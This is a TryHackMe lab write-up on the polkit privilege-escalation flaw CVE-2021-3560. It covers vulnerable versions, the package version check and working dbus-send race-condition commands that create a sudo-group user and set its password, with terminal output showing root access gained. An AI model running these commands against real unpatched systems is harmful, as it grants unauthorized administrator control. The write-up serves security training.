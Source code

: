 # Room
https://tryhackme.com/room/polkit

# Task 1 - Deploy
Deploy VM

# Task 2 - Flags
Dynamic Flags

# Task 3 - Background
* Privilege escalation vulnerability in Linux polkit utility - CVE-2021-3560
* Some vulnerable distros
  * RHEL 8
  * Fedora 21
  * Debian Bullseye
  * Ubuntu 20.04 LTS
* Fixed Ubuntu binary: policykit-1
  * sudo apt list --installed | grep policykit-1
  * look for 0.105-26ubuntu1.1 or later for the patched version
  * look for 0.105-26ubuntu1 for the vulnerable version
* What is polkit
  * part of Linux authorization system
  * toolkit used to determine if you have the right permissions to perform a privileged action
  * launched with pkexec
    * pkexec useradd test1234
* How is polkit exploitable
  * exploits a race condition
  * send manual dbus message requests and kill them before they are processed to trick polkit command authorization

# Task 4 - Exploitation
* normal account creation example:
```
time dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1
```
* account creation example with sleep and kill
  * note, you will need to adjust the sleep timer depending on the system, too long of a sleep and the exploit fails
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!
```
* use openssl to generate a password hash
```
openssl passwd -6 test
```
* password creation example with sleep and kill
  * note, you will need to adjust the sleep timer depending on the system, too long of a sleep and the exploit fails
```
dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!
```

# Task 5 - Practical
Test the exploit on the VM
* SSH to the box as a normal user
* Check for vulnerable version
```
tryhackme@polkit:~$ apt list --installed | grep policykit-1

WARNING: apt does not have a stable CLI interface. Use with caution in scripts.

policykit-1/focal,now 0.105-26ubuntu1 amd64 [installed,upgradable to: 0.105-26ubuntu1.1]
```
* Run the exploit to create a user
```
tryhackme@polkit:~$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts org.free
desktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1 & sleep 0.005s; kill $!                                    
[1] 1180                                                                                                                                  

[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Account
s org.freedesktop.Accounts.CreateUser string:attacker string:"Pentester Account" int32:1                                                  

tryhackme@polkit:~$ id attacker                                                                                                           
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker),27(sudo)           
```
* Run the exploit to create the password
```
tryhackme@polkit:~$ dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Accounts/User1000
 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZ
LGaaUDMC4MXCjIupp8.' string:'Ask the pentester' & sleep 0.005s; kill $!                                                                   
[1] 1219                                                                                                                                  
tryhackme@polkit:~$                                                                                                                       

[1]+  Terminated              dbus-send --system --dest=org.freedesktop.Accounts --type=method_call --print-reply /org/freedesktop/Account
s/User1000 org.freedesktop.Accounts.User.SetPassword string:'$6$TRiYeJLXw8mLuoxS$UKtnjBa837v4gk8RsQL2qrxj.0P8c9kteeTnN.B3KeeeiWVIjyH17j6sLzmcSHn5HTZLGaaUDMC4MXCjIupp8.' string:'Ask the pentester'
tryhackme@polkit:~$ 
```
* su to the user and check permissions
```
tryhackme@polkit:~$ su attacker
Password: 
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

attacker@polkit:/home/tryhackme$ id
uid=1000(attacker) gid=1000(attacker) groups=1000(attacker),27(sudo)

attacker@polkit:/home/tryhackme$ whoami
attacker

attacker@polkit:/home/tryhackme$ sudo -l
[sudo] password for attacker: 
Matching Defaults entries for attacker on polkit:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User attacker may run the following commands on polkit:
    (ALL : ALL) ALL
```
* Grab flag